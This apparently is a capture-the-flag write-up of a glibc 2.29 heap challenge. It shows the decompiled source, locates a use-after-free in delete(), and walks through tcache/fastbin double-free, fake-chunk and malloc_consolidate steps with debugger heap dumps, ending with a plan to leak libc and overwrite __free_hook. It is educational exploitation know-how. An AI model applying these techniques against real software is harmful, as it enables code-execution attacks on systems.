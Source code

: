 # information
Running on Ubuntu 19.04, this is a pretty traditional heap exploit challenge.
Only two functions exists in it, *new()* and *delete()*.
To be noted, the size of the chunk should be less than 0x78.
```C
unsigned int new()
{
  unsigned int result; // eax
  int i; // [rsp+8h] [rbp-8h]
  size_t size; // [rsp+Ch] [rbp-4h]

  for ( i = 0; g_chunk[i]; ++i )
  {
    if ( i == 18 )
    {
      puts("full");
      exit(0);
    }
  }
  printf("size:");
  result = read_int();
  LODWORD(size) = result;
  if ( result <= 0x78 )
  {
    g_chunk[i] = malloc(result);
    printf("content:");
    read(0, g_chunk[i], (unsigned int)size);
    result = puts("done");
  }
  return result;
}
```
# bug
There is a UAF bug in the *delete* function.
```C
int delete()
{
  int idx; // [rsp+Ch] [rbp-4h]

  printf("index:");
  idx = read_int();
  if ( idx < 0 || idx > 17 )
  {
    puts("index out of range");
    exit(0);
  }
  free(g_chunk[idx]);
  return puts("done");
}
```
# exploit
The question is how to leverage this bug to code execution. 
Since its been running with libc-2.29.so, the tcache double free mitigation has been added to it. So that we cant use the *House of Atum* way to exploit it.
But here, we can use 18 chunks at most. 

Create 8 chunks and free 7 of them(skip chunk 5) to fill the tcache list, at the same time, prepare the content for *malloc_consolidate*.
```
0x555555757450:	0x0000000000000000	0x0000000000000081 [chunk 4]
0x555555757460:	0x0000000000000000	0x0000000000000000
0x555555757470:	0x0000000000000000	0x0000000000000000
0x555555757480:	0x0000000000000000	0x0000000000000000
0x555555757490:	0x0000000000000000	0x0000000000000000
0x5555557574a0:	0x0000000000000000	0x0000000000000000
0x5555557574b0:	0x0000000000000000	0x0000000000000081 [fake chunk]
0x5555557574c0:	0x0000000000000000	0x0000000000000000
0x5555557574d0:	0x0000000000000000	0x0000000000000041 [chunk 5]
0x5555557574e0:	0x3535353535353535	0x3535353535353535
0x5555557574f0:	0x3535353535353535	0x3535353535353535
0x555555757500:	0x3535353535353535	0x3535353535353535
0x555555757510:	0x3535353535353535	0x0000000000000081 [chunk 6]
0x555555757520:	0x0000000000000000	0x0000000000000000
0x555555757530:	0x0000000000000000	0x0000000000000061
0x555555757540:	0x0000000000000000	0x0000000000000000
0x555555757550:	0x0000000000000000	0x0000000000000000
0x555555757560:	0x0000000000000000	0x0000000000000000
0x555555757570:	0x0000000000000000	0x0000000000000000
[...]
```
Here we use chunk4, chunk5, chunk6 to arrange the heap, make chunk5 just inside the fake chunk. At the same time, Set a fake chunk.
The fake chunk will be added into the fastbins' linked list in the following steps. Carefully set it size to bypass malloc_consolidate checking(next chunk -> chunk 7).

Now, `free(8)`, chunk 8 will be added into the fastbin
```
───────────────────── Tcachebins for arena 0x155555326c40 ─────────────────────
Tcachebins[idx=6, size=0x70] count=7  ←  Chunk(addr=0x5555557575a0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
────────────────────── Fastbins for arena 0x155555326c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE) 
```
malloc a new chunk with size 0x78, this chunk will be selected from `tcache_bins[6]`, chunk 0x5555557575a0 will be allocated.
```
Tcachebins[idx=6, size=0x70] count=6  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
────────────────────── Fastbins for arena 0x155555326c40 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE) 
```
Doing `free(8)` again, the chunk will be added into `tcache_bins[]`. And it's FD will be 0x555555757520.
```
Tcachebins[idx=6, size=0x70] count=7  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
─────────────────────────────────────────────────────────── Fastbins for arena 0x155555326c40 ───────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757530, size=0x0, flags=) [incorrect fastbin_index] 
```
Malloc a new chunks with size 0x78, it will be at 0x555555757620, setting its FD to the fake chunk we created at the beginning, preparing for the malloc_consolidate.
```
Tcachebins[idx=6, size=0x70] count=6  ←  Chunk(addr=0x555555757520, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757460, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557573e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757360, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557572e0, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x555555757260, size=0x80, flags=PREV_INUSE) 
─────────────────────────────────────────────────────────── Fastbins for arena 0x155555326c40 ───────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70]  ←  Chunk(addr=0x555555757620, size=0x80, flags=PREV_INUSE)  ←  Chunk(addr=0x5555557574c0, size=0x80, flags=PREV_INUSE) 
```

Because this challenge didnt do `setbuf(stdin, 0)`. So `getchar()` will call `malloc(0x1000)` inside, which will trigger malloc_consolidate.
After malloc_consolidate, fake chunk will be added into smallbins, and we got an overlapping chunk together with libc address in it.
The chunk is overlapped with chunk 5.
```
gef➤  x/20gx 0x5555557574c0-0x10
0x5555557574b0:	0x0000000000000000	0x0000000000000081 [fake chunk]
0x5555557574c0:	0x0000155555326d10	0x0000155555326d10
0x5555557574d0:	0x0000000000000000	0x0000000000000041 [chunk 5]
0x5555557574e0:	0x3535353535353535	0x3535353535353535
0x5555557574f0:	0x3535353535353535	0x3535353535353535
0x555555757500:	0x3535353535353535	0x3535353535353535
0x555555757510:	0x3535353535353535	0x0000000000000081 [chunk 6]
0x555555757520:	0x0000555555757460	0x0000000000000000
0x555555757530:	0x0000000000000080	0x0000000000000060
0x555555757540:	0x0000000000000000	0x0000000000000000

```
We can use chunk 5 to do stdout overwrite and leak libc address. Then overwrite chunk 6's FD to edit `__free_hook`.






